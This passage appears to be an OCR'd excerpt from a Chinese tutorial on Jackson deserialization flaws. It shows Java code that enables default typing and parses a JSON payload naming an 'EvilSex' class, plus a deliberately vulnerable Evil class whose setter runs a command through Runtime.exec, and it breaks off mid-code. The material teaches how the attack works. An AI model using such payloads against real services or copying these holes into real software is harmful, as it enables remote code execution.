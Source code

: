 Peson3 类不变

编写反序列化类，构造 Payload

JAVA

```
public class DeserializationRun {  
    public static void main(String[] args) throws Exception {  
        ObjectMapper mapper = new ObjectMapper();  
        mapper.enableDefaultTyping();  
  
        String json = "{\"age\":6,\"name\":\"drunkbaby\",\"sex\":[\"com.drunkbaby.JacksonVul.EvilSex\",{\"sex\":1}]}";  
        Person3 p2 = mapper.readValue(json, Person3.class);  
        System.out.println(p2);  
  
    }  
}
```

#### 属性为 Object 类时

**当属性类型为 Object 时，因为 Object 类型是任意类型的父类，因此扩大了我们的攻击面，我们只需要寻找出在目标服务端环境中存在的且构造函数或 setter 方法存在漏洞代码的类即可进行攻击利用。**

后面出现的 Jackson 反序列化的 CVE 漏洞、黑名单绕过等都是基于这个原理寻找各种符合条件的利用链。

我们编写一个存在漏洞的代码

**Evil.java**

JAVA

```
public class Evil {  
    String cmd;  
  
    public void setCmd(String cmd) {  
        this.cmd = cmd;  
        try {  
            Runtime.getRuntime().exec(this.cmd);  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

**Person4.java**

JAVA

```
public class Person4 {  
    public int age;  
    public String name;  
//    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)  
    // 或 @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)    public Object object;  
  
    public Person4() {  
        System.out.println("Person3 构造函数");  
    }  
  
    public void setAge(int age) {  
        System.out.println("Person3 setter 函数");  
    }  
  
    @Override  
    public String toString() {  
```